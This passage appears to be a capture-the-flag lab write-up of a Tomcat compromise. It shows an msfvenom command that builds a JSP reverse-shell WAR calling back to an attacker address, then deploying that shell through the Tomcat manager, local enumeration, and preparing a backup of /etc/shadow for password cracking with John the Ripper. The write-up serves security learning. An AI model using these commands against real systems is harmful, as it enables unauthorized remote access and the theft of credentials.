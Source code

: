 

Had to go in interactive mode by running :

```
>> tomcat-manager
>>> connect http://10.10.65.140:8080/manager webdev
>>> list
```

Then i created a revshell `war` payload using `msfvenom` :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.13.34 LPORT=6666 -f war >shell.war
```



And deployed it using the interactive `tomcat-manager` shell :

```
>>> deploy local shell.war /shell
```

Then accessing `:8080/shell` got us a connection.

And we are in !



We are logged in as `web` user, we need to reach `jdk-admin` to retrieve `user.txt`

We can't run `sudo -l` since we don't have the password for the `web` user



Doesn't seem like there is any process running as `jdk-admin`

nothing in `/opt`

No `cron` jobs

no special `setuid` binaries

no files owned by `jdk-admin`



Hmmm... let's run `linpeas`.. didn't find much



Soo, after looking around for a while, i deciced to check a write up to look for an hint. I quickly glanced the write up and saw a mention of a `backup` file.

Let's look for that.



We find `/var/backups/shadow-backup-alt.gz` for which we have read access



So this is a backup of `/etc/shadow`

Let's crack it with `john the ripper`

First we retrieve `/etc/passwd` then we `unshadow passwd shadow-backup-alt > tocrack`

